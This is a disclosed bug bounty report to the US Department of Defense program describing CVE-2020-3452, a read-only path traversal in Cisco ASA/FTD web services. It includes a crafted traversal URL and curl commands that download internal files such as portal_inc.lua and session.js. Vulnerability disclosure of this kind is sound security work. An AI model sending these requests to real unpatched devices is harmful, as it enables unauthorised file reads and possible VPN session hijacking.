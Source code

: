 # Read-only path traversal (CVE-2020-3452)  at https://█████

## Report Details
- **Report ID**: 960082
- **URL**: https://hackerone.com/reports/960082
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-16T23:32:49.279Z
- **Disclosed**: 2021-04-02T18:46:36.245Z

## Reporter
- **Username**: raginalstorm
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I discovered a vulnerability Read-only path traversal (CVE-2020-3452)  at https://███████

**Description:**
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device.

## Impact
An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Step-by-step Reproduction Instructions
- In a web browser, navigate to  https://███/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

- Once URL is fully loaded, you will be prompted to download file `translation-table` that represents `portal_inc.lua` which you can then open and observe its content.
███
███████

- Alternatively, you can execute the below linux bash terminal command to download that same file `portal_inc.lua`: 

```
curl -k "https://██████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" --output portal_inc.lua 
```

- You can download various internal files using curl flag `--output` to output the binary data to a file:
 
```
curl -k "https://███████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/session.js&default-language&lang=../" --output session.js 
```

## Product, Version, and Configuration (If applicable)
WebApp endpoint

## Suggested Mitigation/Remediation Actions
- Cisco has released software updates that address this vulnerability. There are no workarounds that address this vulnerability.
- This advisory is available at the following link https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Impact

An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Attachments
No attachments
